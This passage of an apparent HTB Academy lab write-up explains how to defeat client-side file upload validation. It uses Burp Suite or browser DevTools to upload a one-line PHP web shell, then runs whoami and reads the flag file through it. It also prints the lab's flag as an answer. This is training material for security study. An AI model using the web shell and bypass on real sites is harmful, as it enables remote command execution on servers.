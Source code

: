 **Step 2: Verify Upload Success**
```bash
# Check for success message
# Locate uploaded file URL
# Test command execution
```

**Step 3: Find Uploaded File Location**
```html
<!-- Inspect profile image after upload -->
<img src="/profile_images/shell.php" class="profile-image" id="profile-image">
```

---

## HTB Academy Lab Solutions

### Lab 1: Basic Client-Side Bypass

**Target:** `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}`

**Method 1 - Burp Suite Interception:**
```bash
# Step 1: Intercept image upload request
# Step 2: Modify filename to shell.php
# Step 3: Replace content with <?php system($_REQUEST['cmd']); ?>
# Step 4: Forward request
# Step 5: Access http://target/profile_images/shell.php?cmd=cat /flag.txt
```

**Method 2 - Browser DevTools:**
```bash
# Step 1: Press [CTRL+SHIFT+C] in browser
# Step 2: Click on upload area to inspect
# Step 3: Remove onchange="checkFile(this)" from input
# Step 4: Upload PHP shell normally
# Step 5: Access uploaded file and execute commands
```

### Expected Workflow

**1. Reconnaissance:**
```bash
# Test normal image upload → SUCCESS
# Test PHP upload → BLOCKED with error message
# No page refresh during validation → Client-side validation confirmed
```

**2. Bypass Execution:**
```bash
# Choose bypass method (Burp or DevTools)
# Upload PHP web shell
# Verify "File successfully uploaded" response
```

**3. Command Execution:**
```bash
# Navigate to /profile_images/shell.php
# Test: ?cmd=whoami
# Flag: ?cmd=cat /flag.txt
```

---